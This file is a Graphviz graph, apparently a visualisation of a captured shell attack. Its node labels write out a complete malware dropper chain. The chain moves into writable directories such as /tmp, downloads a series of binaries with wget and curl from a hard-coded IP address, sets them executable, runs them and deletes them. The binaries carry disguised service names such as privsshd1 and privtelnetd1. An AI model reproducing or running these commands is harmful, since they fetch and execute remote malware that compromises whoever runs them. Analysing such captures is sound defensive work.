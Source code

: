 digraph {
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 10 [label="||,"];
10 [label="wget http://217.182.53.223/privntpd1 "];
10 -> 12 [label=";,"];
12 [label="curl -O http://217.182.53.223/privntpd1 "];
12 -> 14 [label=";,"];
14 [label="chmod +x privntpd1 "];
14 -> 16 [label=";,"];
16 [label="./privntpd1 "];
16 -> 18 [label=";,"];
18 [label="rm -rf privntpd1 "];
18 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 30 [label="||,"];
30 [label="wget http://217.182.53.223/privsshd1 "];
30 -> 32 [label=";,"];
32 [label="curl -O http://217.182.53.223/privsshd1 "];
32 -> 34 [label=";,"];
34 [label="chmod +x privsshd1 "];
34 -> 36 [label=";,"];
36 [label="./privsshd1 "];
36 -> 38 [label=";,"];
38 [label="rm -rf privsshd1 "];
38 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 50 [label="||,"];
50 [label="wget http://217.182.53.223/privopenssh1 "];
50 -> 52 [label=";,"];
52 [label="curl -O http://217.182.53.223/privopenssh1 "];
52 -> 54 [label=";,"];
54 [label="chmod +x privopenssh1 "];
54 -> 56 [label=";,"];
56 [label="./privopenssh1 "];
56 -> 58 [label=";,"];
58 [label="rm -rf privopenssh1 "];
58 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 70 [label="||,"];
70 [label="wget http://217.182.53.223/privbash1 "];
70 -> 72 [label=";,"];
72 [label="curl -O http://217.182.53.223/privbash1 "];
72 -> 74 [label=";,"];
74 [label="chmod +x privbash1 "];
74 -> 76 [label=";,"];
76 [label="./privbash1 "];
76 -> 78 [label=";,"];
78 [label="rm -rf privbash1 "];
78 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 90 [label="||,"];
90 [label="wget http://217.182.53.223/privtftp1 "];
90 -> 92 [label=";,"];
92 [label="curl -O http://217.182.53.223/privtftp1 "];
92 -> 94 [label=";,"];
94 [label="chmod +x privtftp1 "];
94 -> 96 [label=";,"];
96 [label="./privtftp1 "];
96 -> 98 [label=";,"];
98 [label="rm -rf privtftp1 "];
98 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 110 [label="||,"];
110 [label="wget http://217.182.53.223/privwget1 "];
110 -> 112 [label=";,"];
112 [label="curl -O http://217.182.53.223/privwget1 "];
112 -> 114 [label=";,"];
114 [label="chmod +x privwget1 "];
114 -> 116 [label=";,"];
116 [label="./privwget1 "];
116 -> 118 [label=";,"];
118 [label="rm -rf privwget1 "];
118 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 130 [label="||,"];
130 [label="wget http://217.182.53.223/privcron1 "];
130 -> 132 [label=";,"];
132 [label="curl -O http://217.182.53.223/privcron1 "];
132 -> 134 [label=";,"];
134 [label="chmod +x privcron1 "];
134 -> 136 [label=";,"];
136 [label="./privcron1 "];
136 -> 138 [label=";,"];
138 [label="rm -rf privcron1 "];
138 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 150 [label="||,"];
150 [label="wget http://217.182.53.223/privftp1 "];
150 -> 152 [label=";,"];
152 [label="curl -O http://217.182.53.223/privftp1 "];
152 -> 154 [label=";,"];
154 [label="chmod +x privftp1 "];
154 -> 156 [label=";,"];
156 [label="./privftp1 "];
156 -> 158 [label=";,"];
158 [label="rm -rf privftp1 "];
158 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 170 [label="||,"];
170 [label="wget http://217.182.53.223/privpftp1 "];
170 -> 172 [label=";,"];
172 [label="curl -O http://217.182.53.223/privpftp1 "];
172 -> 174 [label=";,"];
174 [label="chmod +x privpftp1 "];
174 -> 176 [label=";,"];
176 [label="./privpftp1 "];
176 -> 178 [label=";,"];
178 [label="rm -rf privpftp1 "];
178 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 190 [label="||,"];
190 [label="wget http://217.182.53.223/privsh1 "];
190 -> 192 [label=";,"];
192 [label="curl -O http://217.182.53.223/privsh1 "];
192 -> 194 [label=";,"];
194 [label="chmod +x privsh1 "];
194 -> 196 [label=";,"];
196 [label="./privsh1 "];
196 -> 198 [label=";,"];
198 [label="rm -rf privsh1 "];
198 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 210 [label="||,"];
210 [label="wget http://217.182.53.223/privnut1 "];
210 -> 212 [label=";,"];
212 [label="curl -O http://217.182.53.223/privnut1 "];
212 -> 214 [label=";,"];
214 [label="chmod +x privnut1 "];
214 -> 216 [label=";,"];
216 [label="./privnut1 "];
216 -> 218 [label=";,"];
218 [label="rm -rf privnut1 "];
218 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 230 [label="||,"];
230 [label="wget http://217.182.53.223/privapache21 "];
230 -> 232 [label=";,"];
232 [label="curl -O http://217.182.53.223/privapache21 "];
232 -> 234 [label=";,"];
234 [label="chmod +x privapache21 "];
234 -> 236 [label=";,"];
236 [label="./privapache21 "];
236 -> 238 [label=";,"];
238 [label="rm -rf privapache21 "];
238 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 250 [label="||,"];
250 [label="wget http://217.182.53.223/privtelnetd1 "];
250 -> 252 [label=";,"];
252 [label="curl -O http://217.182.53.223/privtelnetd1 "];
252 -> 254 [label=";,"];
254 [label="chmod +x privtelnetd1 "];
254 -> 256 [label=";,"];
256 [label="./privtelnetd1 "];
256 -> 257 [label=";,"];
}
